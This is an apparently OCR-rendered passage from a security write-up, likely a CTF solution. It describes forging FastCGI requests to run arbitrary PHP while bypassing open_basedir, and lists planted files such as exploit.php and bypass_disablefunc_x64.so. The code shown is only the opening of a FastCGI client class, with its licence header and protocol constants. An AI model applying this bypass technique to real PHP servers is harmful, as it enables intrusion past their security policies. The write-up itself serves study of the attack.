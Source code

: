 ```
exploit.php
png.la
png.so
orange.so
bypass_disablefunc_x64.so
out.ilbm
out.txt
test.php
wdwd1.so
wdwd2.php
testXXXX.ps
```

And I know I can forge fastcgi to bypass some security policies. (e.g. `open_basedir`)

So I modify [this script](https://gist.github.com/wofeiwo/4f41381a388accbf91f8) to forge fastcgi protocol to execute some malicious php code without `open_basedir`

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
```